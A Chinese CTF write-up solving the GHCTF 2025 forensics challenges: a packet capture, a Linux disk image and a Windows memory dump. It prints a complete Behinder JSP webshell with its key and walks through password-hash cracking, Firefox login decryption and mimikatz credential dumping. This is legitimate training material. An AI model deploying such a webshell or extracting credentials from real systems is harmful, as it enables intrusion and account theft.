# GHCTF 2025 Misc 流量分析与取证-先知社区

> **来源**: https://xz.aliyun.com/news/17218  
> **文章ID**: 17218

---

## GHCTF 2025 Misc 流量分析与取证详解

### mypcap

题目描述

> 简单溯源

有三小问

* 问题1：请问被害者主机开放了哪些端口？提交的答案从小到大排序并用逗号隔开
* 问题2：mrl64喜欢把数据库密码放到桌面上，这下被攻击者发现了，数据库的密码是什么呢？
* 问题3：攻击者在数据库中找到了一个重要的数据，这个重要数据是什么？

#### 第一问

> 请问被害者主机开放了哪些端口？提交的答案从小到大排序并用逗号隔开

**端口开放时**：

* 目标主机回复 **SYN + ACK** 数据包。
* **TCP 标志位**：`SYN=1`，`ACK=1`。

```
tcp.flags.syn == 1 && tcp.flags.ack == 1
```



得到22,3306,8080

#### 第二问

> mrl64喜欢把数据库密码放到桌面上，这下被攻击者发现了，数据库的密码是什么呢？

在HTTP对象列表可以看到有一个`multipart/form-data`类型的文件

> `multipart/form-data` 是一种用于在 HTTP 请求中传输表单数据的编码类型，常用于文件上传或包含非文本数据（如二进制文件）的表单提交。

导出来发现是`t3st.war`



7z打开得到index.jsp

```
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="8a1e94c07e3fb7d5";/*该密钥为连接密码32位md5值的前16位*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
```

很明显是冰蝎java，得到密钥：`8a1e94c07e3fb7d5`

AES ECB可以解出class文件，用jadx反编译



可以看到详细信息（不过这题可以不用）



红框处内容解密

```
{"msg":"bXlzcWwgcGFzc3dvcmQgaXMgbjFjZXA0U3MK","status":"c3VjY2Vzcw=="}
```

解base得到答案：`mysql password is n1cep4Ss`

#### 第三问

> 攻击者在数据库中找到了一个重要的数据，这个重要数据是什么？

在流2038可以看到很多sql查询命令，发现其中一条是`SELECT * FROM data`



这时回到整个对话中搜索



得到答案：`Th1s_1s_Imp0Rt4Nt_D4Ta`

结合三问答案贴入mypcap-flag.py，运行得到flag

NSSCTF{703663c4-1ff1-4c51-83b8-0f4303e82659}

### mydisk-1

有三问

* *问题1：mrl64的登录密码是什么？*
* *问题2： mrl64设置了一个定时任务，他每多少秒向什么地址发送一个请求？*
* *问题3：有人发送了一封邮件给mrl64，你能获取到邮件中的flag吗？*

使用FTK挂载即可

左上角：文件 -> Image Mounting ，添加Image File后点击Mount



#### 第一问

> mrl64的登录密码是什么？

找密码，直接查看`/etc/shadow`

```
root:$y$j9T$.PVnkOUSTRSFi7x/8PBej/$RePk7zJ/7iZpynDs4NDTYnuP463BrjBPbD1xRPI9nQC:20113:0:99999:7:::
l0v3miku:$y$j9T$Me1sc6HllhxzlxG2YpNXi0$8oums.4ZpbnCsK0a.lmkodOFeCtpC2daRGLz.jAoKI0:20113:0:99999:7:::
```

果然有，爆破一下，修改格式

```
l0v3miku:$y$j9T$Me1sc6HllhxzlxG2YpNXi0$8oums.4ZpbnCsK0a.lmkodOFeCtpC2daRGLz.jAoKI0
```

采用john结合rockyou.txt

```
# john --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Cost 1 (algorithm [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt]) is 0 for all loaded hashes
Cost 2 (algorithm specific iterations) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates left, minimum 96 needed for performance.
theo0114@        (l0v3miku)     
```

速度比较慢，因为密码比较靠后

```
# wc -l /usr/share/wordlists/rockyou.txt
14344392 /usr/share/wordlists/rockyou.txt
# grep "theo0114@" -n /usr/share/wordlists/rockyou.txt
3250289:theo0114@
```

#### 第二问

> mrl64设置了一个定时任务，他每多少秒向什么地址发送一个请求？

定时任务的位置是`/etc/crontab`

```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
# You can also override PATH, but by default, newer versions inherit it from the environment
#PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root	cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6	* * 7	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6	1 * *	root	test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
*/2 * * * * root /usr/bin/python3 /usr/local/share/xml/entities/a.py
#
```

关注 `*/2 * * * * root /usr/bin/python3 /usr/local/share/xml/entities/a.py`

> * `*/2`：**分钟**字段，表示每 2 分钟执行一次。
> * `*`：**小时**字段，表示每小时都执行。
> * `*`：**日**字段，表示每天。
> * `*`：**月**字段，表示每个月。
> * `*`：**周**字段，表示每周的每一天。
> * `root`：**用户**字段，表示以 `root` 用户身份执行命令。
> * `/usr/bin/python3 /usr/local/share/xml/entities/a.py`：**命令**字段，表示要执行的命令。

跟进a.py

```
import requests

def fetch_content(url):
    try:
        response = requests.get(url)
        response.raise_for_status()  # Raise an error for HTTP codes 4xx/5xx
        print(response.text)
    except requests.exceptions.RequestException as e:
        print(f"An error occurred: {e}")

if __name__ == "__main__":
    url = "http://192.168.252.1:8000"
    fetch_content(url)
```

得到答案：`120_http://192.168.252.1:8000`

#### 第三问

> 有人发送了一封邮件给mrl64，你能获取到邮件中的flag吗？

在`\home\l0v3miku`下找文件，先看桌面，得到remember.txt和Foxmail.desktop

remember.txt内容如下

```
MON: w3t4fw3t
TUES: FW4AE32ed
WED: d2D562Wd2
THUR: JHUIY84d9
FRI: ni289UJ8O
SAT: nmi3SDQ2
SUN: 3jn723JK
```

Foxmail是一款邮件客户端软件，Foxmail.desktop内容如下

```
[Desktop Entry]
Name=Foxmail
Exec=env WINEPREFIX="/home/l0v3miku/.wine" wine-stable C:\\users\\Public\\Desktop\\Foxmail.lnk
Type=Application
StartupNotify=true
Path=/home/l0v3miku/.wine/dosdevices/c:/Foxmail 7.2
Icon=55D8_Foxmail.0
StartupWMClass=foxmail.exe
```

跟进`/.wine`

> Wine 是一款允许用户在 Unix/Linux 操作系统上运行 Windows 应用程序的兼容层

本地安装Foxmail，在启动前把关键配置文件（Storage文件夹和FMStorage.list）拷贝过来

> Storage文件夹包含邮件正文、附件等数据



邮件内容提到每日字符串，想起刚才的remember.txt，日期是2025/1/25，那天是星期六，即为`nmi3SDQ2`



掩码爆破得到密码：`nmi3SDQ22580`

得到flag：`th3_TExt_n0w_YOU_kn0w!`

结合三问答案贴入mydisk-flag1.py，运行得到flag

NSSCTF{88f96978-ec64-4255-8df7-43e5ec9c9b6e}

### mydisk-2

有三问

* *问题1：mrl64的这台电脑的系统名是什么？*
* *问题2： 你知道mrl64的ctfshow的账号密码吗？*
* *问题3：mrl64的电脑上有一个docker容器，其环境里存储了一个重要信息，你知道是什么吗？*

#### 第一问

> mrl64的这台电脑的系统名是什么？

根据提示：*# name of OS, like "Ubuntu 18.04.5 LTS"*

在`/etc/issue`内可查看

```
Linux Mint 22.1 Xia 
 \l
```

得到答案：`Linux Mint 22.1 Xia`

#### 第二问

> 你知道mrl64的ctfshow的账号密码吗？

要获取网站账号密码，直接去读配置文件，位置在 `\home\l0v3miku\.mozilla\firefox\spk3lcsa.default-release`

可利用文件是logins.json和key4.db

解密工具地址：<https://github.com/lclevy/firepwd>

```
firepwd-master>python firepwd.py logins.json

globalSalt: b'1b0194b7b99b5db3b74c30913de216b5a77ba379'
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'094c7be8c7764131d450807e2e090a6cbc576b5943473d34b104e37dc689f8ef'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
           }
         }
       }
       SEQUENCE {
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
         OCTETSTRING b'f9bb21d1042ebdfd5490ccb282a1'
       }
     }
   }
   OCTETSTRING b'fecc109cd50fbfc78cf6fce1f9b7482b'
 }
clearText b'70617373776f72642d636865636b0202'
password check? True
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'94d83e7f733c471e25ef6640ef6b2c1605ed884bd899c9a6e6d1eec89cf3bf72'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
           }
         }
       }
       SEQUENCE {
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
         OCTETSTRING b'1df636fd6010eeb3a512967cf24a'
       }
     }
   }
   OCTETSTRING b'd1b88e03b9449ded2abce109153302cc2aafa26f2602f40794888df006b1dc6d'
 }
clearText b'193b9752fb5275868fd0ef9e75ef79f4fb73f80d374346380808080808080808'
decrypting login/password pairs
    https://ctf.show:b'l0v3Miku',b'mrl64_love_miku'
```

得到ctfshow的账号密码：`l0v3Miku/mrl64_love_miku`

#### 第三问

> mrl64的电脑上有一个docker容器，其环境里存储了一个重要信息，你知道是什么吗？

在Linux系统中，Docker的容器信息主要存放在`/var/lib/docker/containers/`

读配置文件（config.v2.json)，使用cyberchef的json beautify美化一下



得到答案：`Y0U_FouNd_mE!`

结合三问答案贴入mydisk-flag2.py，运行得到flag

NSSCTF{085edba8-dd9d-4758-a90c-14c6816b5077}

### mymem-1

有三问

* *问题1：mrl64发现有人在他的电脑上偷偷下载了些什么，你能拿到其中的pass1吗？*
* *问题2： mrl64很喜欢用Windows自带的画图软件画画，这次他情不自禁地把pass2也给画上去了，但是他还没关掉画图软件就去吃饭了。那么你看到pass2了吗？*
* *问题3：你知道mrl64电脑的产品ID是什么吗？*

先确认系统版本

```
# python2 vol.py  -f /root/桌面/chall.raw imageinfo
Volatility Foundation Volatility Framework 2.6.1
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win7SP1x64, Win7SP0x64, Win2008R2SP0x64, Win2008R2SP1x64_24000, Win2008R2SP1x64_23418, Win2008R2SP1x64, Win7SP1x64_24000, Win7SP1x64_23418
                     AS Layer1 : WindowsAMD64PagedMemory (Kernel AS)
                     AS Layer2 : FileAddressSpace (/root/桌面/chall.raw)
                      PAE type : No PAE
                           DTB : 0x187000L
                          KDBG : 0xf80003fe7120L
          Number of Processors : 2
     Image Type (Service Pack) : 1
                KPCR for CPU 0 : 0xfffff80003fe9000L
                KPCR for CPU 1 : 0xfffff88004500000L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2025-01-25 08:17:59 UTC+0000
     Image local date and time : 2025-01-25 16:17:59 +0800
```

#### 第一问

> mrl64发现有人在他的电脑上偷偷下载了些什么，你能拿到其中的pass1吗？

提到了下载，可以查看浏览器记录

```
# python2 vol.py -f /root/桌面/chall.raw --profile=Win7SP1x64 iehistory

Process: 2372 explorer.exe
Cache type "URL " at 0x38e5400
Record length: 0x100
Location: :2025012520250126: l0v3Miku@file:///C:/Users/l0v3Miku/Downloads/DgP1YTr/rWFA8Xcd.py
Last modified: 2025-01-25 15:56:35 UTC+0000
Last accessed: 2025-01-25 07:56:35 UTC+0000
File Offset: 0x100, Data Offset: 0x0, Data Length: 0x0
**************************************************
Process: 2372 explorer.exe
Cache type "URL " at 0x38e5500
Record length: 0x100
Location: :2025012520250126: l0v3Miku@file:///C:/Users/l0v3Miku/Downloads/DgP1YTr/rWFA8Xcd.py
Last modified: 2025-01-25 16:16:46 UTC+0000
Last accessed: 2025-01-25 08:16:46 UTC+0000
File Offset: 0x100, Data Offset: 0x0, Data Length: 0x0
```

提到rWFA8Xcd.py，利用filescan获取偏移量

```
# python2 vol.py -f /root/桌面/chall.raw --profile=Win7SP1x64 filescan | grep "rWFA8Xcd.py"

0x000000007fd49790     16      0 R--rw- \Device\HarddiskVolume1\Users\l0v3Miku\Downloads\DgP1YTr\rWFA8Xcd.py
```

dump下来

```
# python2 vol.py  -f /root/桌面/chall.raw --profile=Win7SP1x64 dumpfiles -Q 0x000000007fd49790 -D ../

DataSectionObject 0x7fd49790   None   \Device\HarddiskVolume1\Users\l0v3Miku\Downloads\DgP1YTr\rWFA8Xcd.py
```

这里vol2没成功，用RStudo成功恢复



```
import os
from zTuS2beK import *
from Crypto.Util.number import *
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

m = bytes_to_long(hint)
p = getPrime(1024)p q = getPrime(1024)
n = p * q
gift = p + q
e = 0x10001

c = pow(m, e, n)
print(c)
print(n)
print(gift)

key = bytes(os.environ.get('key1'),'utf-8')
iv = key2
cipher = AES.new(key, AES.MODE_CBC, iv)
ciphertext = cipher.encrypt(pad(pass1, AES.block_size))
print(ciphertext.hex())
```

脚本中提到environ，使用envars

```
# python2 vol.py -f /root/桌面/chall.raw --profile=Win7SP1x64 envars

1824 WmiPrvSE.exe         0x0000000000391320 key1                           thisiskey1_12345
```

数据则在consoles中获取

```
# python2 vol.py -f /root/桌面/chall.raw --profile=Win7SP1x64 consoles

C:\Users\l0v3Miku\Downloads\DgP1YTr>python rWFA8Xcd.py                          
14001794481701609017779842613561368164212596786341862348005481646047215619507521
49278912888639540230451839369688719100627125995630354273502444917063081792605532
94267994273430359331599050234295081869580199728966066924625475324233276631745823
81969421677291597977683490441956230620096318510588339277299834257630679869095533
91529826887262891110215131336835590583533222824039285768705304651803321445988462
27683030026615852136425070656029592436689178227456990788324200250353755668383986
14222802526697528659816151224566478032253177267359113329465502048463421483050341
60834276423884342303117079974915360602260017210053528482                        
15175520534679002401099153786691996610741724366644767970294199461360625506670171
91333858903915221489529476791789079872456861853160689436516911320200925963383431
57566524541322467921490185943024608911794701712410883538718770803660279353491963
36898322210730188776165117802924501882037765393630874995246915354414443559998797
48258821587469089462605835743146137352286979522672124009005165339448128586015687
31596825856121038186281447699021651125101605599873887741382499228798696192179788
60769587704190173087676894796444906777850672706288511866529372278651771664270836
898995768267656486884336654639609908953323507644498411023                       
24763900912215718201721050690815019612147565488314444116083520741586252470660351
96489441340089944772477904693032082611648984225770748868642494181754986271915138
07560589950050228417256847246940316353851273334053091590328552656456770420229829
795617747846458452568310499592113778421666174094718840643940713124864           
94f6fbce4b055b6ac64f07e04085540f78e1339205efe890ce0f9753ff02d14a                
                                                                                
C:\Users\l0v3Miku\Downloads\DgP1YTr>del zTuS2beK.py
```

解RSA

```
from Crypto.Util.number import *

c = 1400179448170160901777984261356136816421259678634186234800548164604721561950752149278912888639540230451839369688719100627125995630354273502444917063081792605532942679942734303593315990502342950818695801997289660669246254753242332766317458238196942167729159797768349044195623062009631851058833927729983425763067986909553391529826887262891110215131336835590583533222824039285768705304651803321445988462276830300266158521364250706560295924366891782274569907883242002503537556683839861422280252669752865981615122456647803225317726735911332946550204846342148305034160834276423884342303117079974915360602260017210053528482
n = 15175520534679002401099153786691996610741724366644767970294199461360625506670171913338589039152214895294767917890798724568618531606894365169113202009259633834315756652454132246792149018594302460891179470171241088353871877080366027935349196336898322210730188776165117802924501882037765393630874995246915354414443559998797482588215874690894626058357431461373522869795226721240090051653394481285860156873159682585612103818628144769902165112510160559987388774138249922879869619217978860769587704190173087676894796444906777850672706288511866529372278651771664270836898995768267656486884336654639609908953323507644498411023
gift = 247639009122157182017210506908150196121475654883144441160835207415862524706603519648944134008994477247790469303208261164898422577074886864249418175498627191513807560589950050228417256847246940316353851273334053091590328552656456770420229829795617747846458452568310499592113778421666174094718840643940713124864
e = 0x10001
 
phi = n - gift + 1
d = inverse(e, phi)
m = pow(c, d, n)
print(long_to_bytes(m))
 
# b'hint{key2_is_my_login_password_repeated_twice}'
```

利用mimikatz获取password

```
# python2 vol.py --plugins=/root/桌面/volatility/volatility/plugins/ -f /root/桌面/chall.raw --profile=Win7SP1x64 mimikatz

Volatility Foundation Volatility Framework 2.6.1
WARNING : volatility.debug    : NoneObject as string: Invalid offset 3235720 for dereferencing Buffer as String
Module   User             Domain           Password                                
-------- ---------------- ---------------- ----------------------------------------
wdigest  l0v3Miku         WIN-9MC8FDEOCKU  P@ssW0Rd                                
wdigest  WIN-9MC8FDEOCKU$ WORKGROUP
```

解AES得到答案：`OK_p4ss1_y0u_G3T_1t_n0w`

